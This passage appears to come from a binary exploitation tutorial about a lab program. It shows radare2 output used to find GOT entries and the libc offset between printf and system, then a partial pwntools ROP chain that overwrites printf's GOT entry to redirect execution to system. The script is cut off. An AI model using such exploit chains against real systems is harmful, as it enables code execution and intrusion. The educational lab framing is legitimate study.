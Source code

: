 ```
0x00400620    1 2            sym.__libc_csu_fini
0x00400624    1 9            sym._fini
0x00600ff0    1 18           reloc.__libc_start_main_240
[0x00400450]> 
```
Then we go check the GOT:
```
[0x00400450]> dm
0x0000000000400000 # 0x0000000000401000 * usr     4K s -r-x /home/lab/asl/example_4 /home/lab/asl/example_4 ; map.home_lab_asl_example_4._r_x
0x0000000000600000 # 0x0000000000601000 - usr     4K s -r-- /home/lab/asl/example_4 /home/lab/asl/example_4 ; map.home_lab_asl_example_4._rw
0x0000000000601000 # 0x0000000000602000 - usr     4K s -rw- /home/lab/asl/example_4 /home/lab/asl/example_4 ; obj._GLOBAL_OFFSET_TABLE

GOT TABLE
[0x00400430]> ir
[Relocations]
vaddr=0x00600ff0 paddr=0x00000ff0 type=SET_64 __libc_start_main
vaddr=0x00600ff8 paddr=0x00000ff8 type=SET_64 __gmon_start__
vaddr=0x00601018 paddr=0x00001018 type=SET_64 printf
vaddr=0x00601020 paddr=0x00001020 type=SET_64 gets
```
And we compute the difference between those functions:
```
[0x00400450]> dmi libc system~ system$
1406 0x0004f420 0x7fc5bb8e7420   WEAK   FUNC   45 system
[0x00400450]> dmi libc printf~ printf$
629 0x00064e40 0x7fc5bb8fce40 GLOBAL   FUNC  195 printf
[0x00400450]> 

delta = 0x15A20
```
So system will be the address of printf + 0x15A20.

And then the rest of the exploit can be crafted following the same scheme we did in the previous ones. We will calculate the address of system, update the GOT with that table and then call to printf() at PLT that will go check the GOT thus going to system() instead!
```Py
from pwn import *

ret = 0x004005a8
pop_rdi_ret=0x00400613
pop_rbp_ret=0x00400519
sub_rdi_rbp = 0x00400537 #sub qword ptr [rdi], rbp; ret; 
offset_to_system =  0x7fc5bb8fce40 - 0x7fc5bb8e7420 # ok
sh__string = 0x00400634



printf_at_got = 0x00601018
printf_at_plt = 0x00400430
buf= b'A' * 216


buf += p64(ret)
buf += p64(pop_rdi_ret)
buf += p64(printf_at_got)
buf += p64(pop_rbp_ret)
buf += p64(offset_to_system)
buf += p64(sub_rdi_rbp)
#------------to system
buf += p64(ret)
buf += p64(pop_rdi_ret)
```